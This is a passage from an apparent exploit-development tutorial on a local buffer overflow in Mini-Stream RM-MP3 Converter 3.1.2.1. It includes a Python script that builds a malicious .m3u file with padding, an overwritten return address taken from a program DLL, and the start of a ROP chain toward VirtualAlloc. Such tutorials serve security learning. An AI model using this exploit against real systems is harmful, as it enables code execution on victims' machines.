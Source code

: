 
## 0x002 Exploit it!

First, overwrite retAddr with a "ret" instruction.
![](/assets/img/exploit/2018-08-14-mini-stream-rm-mp3-converter-3.1.2.1-local-buffer-overflow/0x005.png)
![](/assets/img/exploit/2018-08-14-mini-stream-rm-mp3-converter-3.1.2.1-local-buffer-overflow/0x006.png)

I choose 0x10013483 this time.
```
#!/usr/bin/python
import sys, struct

file="crash.m3u"

rop = struct.pack('<L',0x41414141)  # padding to compensate 4-bytes at ESP

#---------------------------------------------------------------------#
# Badchars: '\x00\x09\x0a'                                            #
# kernel32.virtualalloc: 0x1005d060 (MSRMfilter03.dll)                #
# EIP: 0x10013483 Random RETN (MSRMfilter03.dll)                      #
#---------------------------------------------------------------------#
crash = "http://." + "A"*17416 + "\x83\x34\x01\x10" + rop + "C"*(7572-len(rop))

writeFile = open(file, "w")
writeFile.write(crash)
writeFile.close()
```

Padding! Please learn about VirtualAlloc.
```
LPVOID WINAPI VirtualAlloc(
  _In_opt_ LPVOID lpAddress,
  _In_     SIZE_T dwSize,
  _In_     DWORD  flAllocationType,
  _In_     DWORD  flProtect
);
```

